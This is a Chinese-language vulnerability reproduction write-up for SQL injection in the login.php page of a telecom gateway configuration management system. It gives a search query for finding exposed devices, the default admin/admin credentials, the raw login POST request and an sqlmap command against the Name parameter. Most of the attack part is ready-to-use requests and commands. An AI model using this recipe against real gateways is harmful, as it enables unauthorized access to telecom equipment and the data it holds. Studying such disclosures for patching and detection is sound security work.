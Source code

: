 # 电信 网关配置管理系统 login.php SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## 网络测绘

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下



![](images/202202140923586.png)

设备存在默认弱口令 **admin/admin**

![](images/202202140924953.png)

登录的请求包为

```plain
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```

![](images/202202140924004.png)

#